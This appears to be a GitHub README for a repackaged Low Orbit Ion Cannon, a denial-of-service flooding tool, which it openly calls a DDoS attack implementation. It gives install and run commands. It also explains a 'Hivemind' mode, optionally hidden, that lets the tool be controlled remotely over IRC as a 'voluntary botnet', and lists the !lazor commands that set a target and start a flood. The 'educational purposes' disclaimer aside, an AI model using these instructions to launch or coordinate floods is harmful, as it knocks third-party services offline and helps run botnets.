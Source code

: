 # Low-Orbit-Ion-Cannon-2023
## INFO

Low Orbit Ion Cannon (**LOIC**) is an open source network stress tool, written in C#.
LOIC is based on Praetox's LOIC project at https://sourceforge.net/projects/loic/ .

## DISCLAIMER

LOIC is for educational purposes only, intended to help server owners develop a "hacker defense" attitude. This tool comes without any warranty.

**You may not use this software for illegal or unethical purposes. This includes activities which give rise to criminal or civil liability.**

**Under no event shall the licensor be responsible for any activities, or misdeeds, by the licensee.**

## HOW TO RUN ON WINDOWS

GET THE BINARIES!

Requires Microsoft .NET Framework 3.5 Service Pack 1, available at:
http://www.microsoft.com/downloads/en/details.aspx?FamilyID=ab99342f-5d1a-413d-8319-81da479ab0d7&displaylang=en

## HOW TO RUN ON LINUX / MACOSX

Run debug binaries with Mono or Wine.
Read the wiki at https://github.com/NewEraCracker/LOIC/wiki/_pages for updated instructions.

## HIVEMIND/HIDDEN MODE

HIVEMIND mode will connect your client to an IRC server so it can be controlled remotely.
Think of this as a voluntary botnet. Please be aware that your client can potentially be
made to do naughty things.

Note: It does NOT allow remote administration of your machine; it 
just providees control of LOIC itself.

If you want to start up in Hivemind mode, run something such as this:
```
	LOIC.exe /hivemind irc.server.address
```
which will connect to irc://irc.server.adress:6667/loic

You can also specify a port and channel:
```
	LOIC.exe /hivemind irc.server.address 1234 #secret
```
which will connect to irc://irc.server.adress:1234/secret

In order to run Hivemind Hidden mode, run something such as this:
```
	LOIC.exe /hidden /hivemind irc.server.address
```
which will connect to irc://irc.server.adress:6667/loic without any visible GUI.

## CONTROLLING LOIC FROM IRC

As an OP, Admin or Owner, set the channel topic or send a message such as the following:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true
```

To start an attack, type:
```
	!lazor start
```

or append "start" to the END of the topic:
```
	!lazor targetip=127.0.0.1 message=test_test port=80 method=tcp wait=false random=true start
```

To reset LOIC's options back to their defaults:
```
	!lazor default
```

To stop an attack:
```
	!lazor stop
```

and **be sure to remove "start" from the END of the topic**, if it exists, as well.

Take a look at the source code for more details.

# Distributed Denial of Service (DDoS) Attack

A Distributed Denial of Service (DDoS) attack is a type of denial of service attack in which the incoming traffic flooding the victim so that it cannot respond to legitimate traffic. This project is a simple implementation of a DDoS attack using
Loic Orbit Ion Cannon.


![IMAGE](./assets/anand.gif)

## Getting Started


## Requirements

- Linux

## Usage

To use the project, follow these steps:

- Open the terminal and run the following command:
- `sudo su`
- `apt update`
- `apt install git -y`
- `apt install mono-complete -y`
- `git clone https://github.com/cyberanand1337x/Loic.git`
- `ls`
- `cd Low-Orbit-Ion-Cannon-2023`
- `ls`
- `chmod 777 loic.sh`
- `./loic.sh install`
- `./loic.sh update`
- `./loic.sh run`

